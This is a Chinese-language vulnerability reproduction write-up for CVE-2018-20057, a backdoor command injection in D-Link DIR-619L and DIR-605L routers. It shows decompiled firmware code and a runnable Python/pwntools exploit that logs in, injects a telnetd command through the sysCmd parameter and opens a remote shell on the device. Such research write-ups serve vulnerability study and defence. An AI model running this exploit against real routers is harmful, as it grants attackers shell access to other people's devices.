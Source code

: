 # （CVE-2018-20057）D-Link DIR-619L&605L 命令注入漏洞

## 一、漏洞简介

D-LINK的DIR-619L Rev.B 2.06B1版本之前和DIR-605L Rev.B 2.12B1版本之前的设备，在/bin/boa文件的formSysCmd函数存在后门，导致攻击者在身份认证后可以通过访问

```
http://[ip]//goform/formSysCmd并指定sysCmd参数，从而实现远程命令注入。
```

固件下载地址：ftp://ftp2.dlink.com/PRODUCTS/DIR-619L/REVB/

本漏洞的路由器运行环境与CVE-2018-20056相同。

## 二、漏洞影响

D-LINK的DIR-619L Rev.B 2.06B1版本之前和DIR-605L Rev.B 2.12B1版本之前的设备。

## 三、复现过程

### 漏洞分析

查看ghidra中的反编译代码，在formSysCmd中，首先获取sysCmd参数，然后通过snprintf写入栈中变量，直接调用system函数执行该参数内容。

```
void formSysCmd(undefined4 uParm1)
{
  undefined4 uVar1;
  char *pcVar2;
  char acStack120 [104];

  uVar1 = websGetVar(uParm1,"submit-url",&DAT_004ac874);
  //获取post参数sysCmd，该参数可由用户控制
  pcVar2 = (char *)websGetVar(uParm1,"sysCmd",&DAT_004ac874);
  if (*pcVar2 != 0) {
    //将sysCmd写入栈中，并调用system执行
    snprintf(acStack120,100,"%s 2>&1 > %s",pcVar2,"/tmp/syscmd.log");
    system(acStack120);
  }
  websRedirect(uParm1,uVar1);
  return;
}
```

### 漏洞复现

该漏洞是在身份认证成功之后才可实现命令注入，需要先登录输入用户名和口令。由于是在qemu中模拟固件，通过apmib_get读取路由器本地配置无法实现，所以在劫持了apmib_get函数之后，login输入的用户名和密码暂时填为空。在真机上操作时，换成真实的用户名和密码即可。

```
import requests
import sys
import struct
import base64
from pwn import *
context(arch='mips',endian='big',log_level='debug')

ip='192.168.84.129'
port=101
def login(user,password):
    postData = {
    'login_name':'',
    'curTime':'1234',
    'FILECODE':'',
    'VER_CODE':'',
    'VERIFICATION_CODE':'',
    'login_n':user,
    'login_pass':base64.b64encode(password),
    }
    response = requests.post('http://'+ip+'/goform/formLogin',data=postData)
    #print response.url
def syscmd(cmd):
    postData = {
    'sysCmd':cmd,
    'submit-url':'1234',
    }
    response = requests.post('http://'+ip+'/goform/formSysCmd',data=postData)
    #print response.url
def inter():
    p=remote(ip,port)
    p.interactive()
if __name__ == "__main__":
    login('','')#这里要写实际的用户名和密码，例如admin 12345
    syscmd('telnetd -p '+str(port))
    inter()
```

另由于qemu模拟时，/dev下没有pty设备，导致telnet连接不能实现，但是端口是已经打开了：

![](.resource/%EF%BC%88CVE-2018-20057%EF%BC%89D-Link%20DIR-619L&605L%20%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/media/15-20201014111413220.png)

![](.resource/%EF%BC%88CVE-2018-20057%EF%BC%89D-Link%20DIR-619L&605L%20%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/media/16-20201014111413219.png)